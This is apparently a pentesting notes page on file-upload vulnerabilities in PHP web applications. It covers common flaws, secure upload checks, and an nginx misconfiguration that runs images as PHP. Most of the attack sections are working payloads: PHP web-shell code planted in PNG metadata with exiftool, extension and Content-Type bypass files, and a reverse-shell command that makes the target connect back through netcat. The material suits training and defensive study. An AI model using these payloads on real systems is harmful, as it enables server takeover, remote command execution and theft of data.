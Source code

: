 #### 1.1. Common issues

Common issues in lax file-upload logic:

- overwrite file name and content
- arbitrary file extension is allowed
- mixed content may be executed based on file extension (`.php` file but `JPEG` mime-type)
- malicious files `.exe` can be distributed from trusted context
- image parser vulnerabilities (e.g. ImageTragick)
- was the image processed server-side?
  - compare the checksum of the original file with the checksum of the uploaded file
  - image sanitization can also be done by image resize (parser will rebuild the image for you)
- validation vs. sanitization = checking user input vs. altering user input to fit a specific purpose

#### 1.2. To inject malicious `php` in a `.png` file

Read info about the image:
```
# strings 1.png  #get all strings from image file
# exiftool 1.png #get meta information in files
```
Install `exiftool`:
```
# apt-get install libimage-exiftool-perl -yqq
```
Create test image:
```
# convert -size 1x1 xc:transparent image.jpg
```

Place the PHP code in a meta-data comment:
```
# echo '<?php system($_GET["cmd"]);?>' > 1.php
# exiftool 1.png '-comment<=1.php'
```

Check if the file was modified server-side:
```
# curl -sSL http://vuln.loc/admin/uploads/1438865053.png | strings | grep system
<?php system($_GET["cmd"]);
```

Exercise: `pentesterlab.com/exercises/from_sqli_to_shell_II`

#### 1.3. Secure file-upload implementation?

- file extension check

```php
$file = basename($_FILES['image']['name']);
$ext = pathinfo($file, PATHINFO_EXTENSION);
$valids = array("png","gif", "jpg");
if (!in_array($ext, $valids )){
   DIE("This application allows gif, png or jpg files");
}
```

- file content-type check

```php
$base =  $_FILES['image']['tmp_name'];
list($swidth,$sheight, $smime, $attr) = getimagesize($base);
switch ($smime) {
  case IMAGETYPE_GIF:
    $src = imagecreatefromgif($base);
    break;
  case IMAGETYPE_JPEG:
    $src = imagecreatefromjpeg($base);
    break;
  case IMAGETYPE_PNG:
    $src = imagecreatefrompng($base);
    break;
  default:
    DIE("INVALID CONTENT TYPE:".$smime);
}
if ($src === false) {
  DIE("INVALID IMAGE");
}
```

- web-root upload location

```php
if(!move_uploaded_file($base, "/var/www/admin/uploads/".$file)) {
  die("Error during upload");
}
```

#### 1.4. Nginx misconfiguration for PHP apps

Docs: `https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/#passing-uncontrolled-requests-to-php`

Original upload (contains embedded PHP code `<?php echo 123;?>` in comment meta-data section):
```
$ http -b "http://$target/admin/uploads/123.png" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 3c 3f 70 68 70 20 65  |tComment.<?php e|
00000090  63 68 6f 20 31 32 33 3b  3f 3e 80 4c 58 03 00 00  |cho 123;?>.LX...|
000000a0  00 0a 49 44 41 54 08 d7  63 60 00 00 00 02 00 01  |..IDAT..c`......|
000000b0  e2 21 bc 33 00 00 00 00  49 45 4e 44 ae 42 60 82  |.!.3....IEND.B`.|
000000c0
```

Abusing the misconfiguration (comment section contains the output of the PHP code `Comment.123`):
```
$ http -b "http://$target/admin/uploads/123.png/.php" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 31 32 33 80 4c 58 03  |tComment.123.LX.|
00000090  00 00 00 0a 49 44 41 54  08 d7 63 60 00 00 00 02  |....IDAT..c`....|
000000a0  00 01 e2 21 bc 33 00 00  00 00 49 45 4e 44 ae 42  |...!.3....IEND.B|
000000b0  60 82                                             |`.|
000000b2
```

Reverse shell with embedded PHP inside image:
```
$ exiftool -all='' image.png
$ exiftool -comment='<?=system($_GET["cmd"]);?>' image.png # upload this on server
$ ncat -nlvp 9999 # your local listener
$ cmd='nc $your_ip 9999 -e /bin/bash'
$ http http://$target/admin/uploads/123.png/.php?cmd="$cmd"
```

#### 1.5. PHP examples

##### Example 1:

Code (zero input validation):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php echo system($_GET["c"]);' > f.php
```

##### Example 2:

Code (still vulnerable if extension is not `.php`; e.g: `.phtml, .php3, .php4, .php5, .php7, .phps, .php-s, .pht, .phar`):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if (preg_match('/\.php$/',$file)) { DIE("NO PHP"); }
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php system($_GET["c"]);' > f.php3
```

##### Example 3:

Change the original file type in the request from `Content-Type: text/php` to `Content-Type: image/png`:
```
POST /upload/ HTTP/1.1
[FORMATTING CUT]
Content-Disposition: form-data; name="uploaded"; filename="f.php"
Content-Type: image/png

<?php echo 1234;
```
